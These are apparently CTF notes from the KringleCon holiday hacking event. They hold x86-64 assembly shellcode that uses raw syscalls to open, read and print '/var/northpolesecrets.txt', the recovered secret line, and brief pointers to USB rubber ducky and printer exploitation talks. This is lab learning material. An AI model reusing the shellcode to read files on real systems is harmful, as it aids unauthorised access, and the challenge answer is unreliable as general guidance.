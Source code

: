 ```
; Perform the syscall
syscall

; Return cleanly
ret
```

final 

```
; TODO: Get a reference to this
call msg
db '/var/northpolesecrets.txt',0
msg:
pop rdi

; TODO: Call sys_open
mov rax, 2
mov rsi,0
mov rdx,0
syscall

; TODO: Call sys_read on the file handle and read it into rsp
mov rdi, rax
mov rax, 0
mov rsi, rsp
mov rdx, 500
syscall

; TODO: Call sys_write to write the contents from rsp to stdout (1)
mov rdi, 1
mov rax, 1
mov rsi, rsp
mov rdx, 500
;rsi already in place
syscall

; TODO: Call sys_exit
mov rax, 60
mov rdi, 0
syscall
```

Secret to KringleCon success: all of our speakers and organizers, providing the gift of cyber security knowledge, free to the community.

# rubber ducky usb device
ickymcgoop

# printer exploytation
ruby cyster
